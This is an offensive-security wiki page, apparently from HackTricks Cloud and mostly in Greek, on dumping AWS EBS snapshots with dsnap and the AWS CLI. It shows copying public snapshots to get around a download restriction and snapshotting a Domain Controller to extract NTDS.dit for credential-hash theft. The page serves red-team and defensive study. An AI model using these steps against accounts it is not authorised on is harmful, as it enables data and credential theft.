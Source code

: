 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Έλεγχος ενός snapshot τοπικά
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Σημείωση** ότι το `dsnap` δεν θα σας επιτρέψει να κατεβάσετε δημόσιες στιγμιότυπα. Για να παρακάμψετε αυτό, μπορείτε να κάνετε ένα αντίγραφο του στιγμιότυπου στον προσωπικό σας λογαριασμό και να το κατεβάσετε:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Για περισσότερες πληροφορίες σχετικά με αυτή την τεχνική, ελέγξτε την αρχική έρευνα στο [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Μπορείτε να το κάνετε αυτό με το Pacu χρησιμοποιώντας το module [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs__download_snapshots)

## Έλεγχος ενός snapshot στο AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Εγκαταστήστε το σε μια EC2 VM υπό τον έλεγχό σας** (πρέπει να είναι στην ίδια περιοχή με την αντίγραφο του αντιγράφου ασφαλείας):

Βήμα 1: Ένας νέος όγκος της προτιμώμενης διάστασης και τύπου πρέπει να δημιουργηθεί πηγαίνοντας στο EC2 –> Όγκοι.

Για να μπορέσετε να εκτελέσετε αυτήν την ενέργεια, ακολουθήστε αυτές τις εντολές:

* Δημιουργήστε έναν EBS όγκο για να τον συνδέσετε στην EC2 instance.
* Βεβαιωθείτε ότι ο EBS όγκος και η instance είναι στην ίδια ζώνη.

Βήμα 2: Η επιλογή "σύνδεση όγκου" πρέπει να επιλεγεί κάνοντας δεξί κλικ στον δημιουργηθέντα όγκο.

Βήμα 3: Η instance από το πλαίσιο κειμένου της instance πρέπει να επιλεγεί.

Για να μπορέσετε να εκτελέσετε αυτήν την ενέργεια, χρησιμοποιήστε την παρακάτω εντολή:

* Συνδέστε τον EBS όγκο.

Βήμα 4: Συνδεθείτε στην EC2 instance και καταγράψτε τους διαθέσιμους δίσκους χρησιμοποιώντας την εντολή `lsblk`.

Βήμα 5: Ελέγξτε αν ο όγκος έχει δεδομένα χρησιμοποιώντας την εντολή `sudo file -s /dev/xvdf`.

Εάν η έξοδος της παραπάνω εντολής δείχνει "/dev/xvdf: data", σημαίνει ότι ο όγκος είναι κενός.

Βήμα 6: Μορφοποιήστε τον όγκο στο σύστημα αρχείων ext4 χρησιμοποιώντας την εντολή `sudo mkfs -t ext4 /dev/xvdf`. Εναλλακτικά, μπορείτε επίσης να χρησιμοποιήσετε τη μορφή xfs χρησιμοποιώντας την εντολή `sudo mkfs -t xfs /dev/xvdf`. Παρακαλώ σημειώστε ότι θα πρέπει να χρησιμοποιήσετε είτε ext4 είτε xfs.

Βήμα 7: Δημιουργήστε έναν κατάλογο της επιλογής σας για να εγκαταστήσετε τον νέο όγκο ext4. Για παράδειγμα, μπορείτε να χρησιμοποιήσετε το όνομα "newvolume".

Για να μπορέσετε να εκτελέσετε αυτήν την ενέργεια, χρησιμοποιήστε την εντολή `sudo mkdir /newvolume`.

Βήμα 8: Εγκαταστήστε τον όγκο στον κατάλογο "newvolume" χρησιμοποιώντας την εντολή `sudo mount /dev/xvdf /newvolume/`.

Βήμα 9: Αλλάξτε κατάλογο στον κατάλογο "newvolume" και ελέγξτε τον χώρο δίσκου για να επιβεβαιώσετε την εγκατάσταση του όγκου.

Για να μπορέσετε να εκτελέσετε αυτήν την ενέργεια, χρησιμοποιήστε τις παρακάτω εντολές:

* Αλλάξτε κατάλογο στο `/newvolume`.
* Ελέγξτε τον χώρο δίσκου χρησιμοποιώντας την εντολή `df -h .`. Η έξοδος αυτής της εντολής θα πρέπει να δείχνει τον ελεύθερο χώρο στον κατάλογο "newvolume".

Μπορείτε να το κάνετε αυτό με το Pacu χρησιμοποιώντας το module `ebs__explore_snapshots`.

## Έλεγχος ενός snapshot στο AWS (χρησιμοποιώντας cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

Οποιοσδήποτε χρήστης AWS που διαθέτει την άδεια **`EC2:CreateSnapshot`** μπορεί να κλέψει τους κατακερματισμούς όλων των χρηστών του τομέα δημιουργώντας ένα **snapshot του Domain Controller**, τοποθετώντας το σε μια παρουσία που ελέγχει και **εξάγοντας το NTDS.dit και το SYSTEM** αρχείο μητρώου για χρήση με το έργο secretsdump του Impacket.

Μπορείτε να χρησιμοποιήσετε αυτό το εργαλείο για να αυτοματοποιήσετε την επίθεση: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) ή μπορείτε να χρησιμοποιήσετε μία από τις προηγούμενες τεχνικές μετά τη δημιουργία ενός snapshot.

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
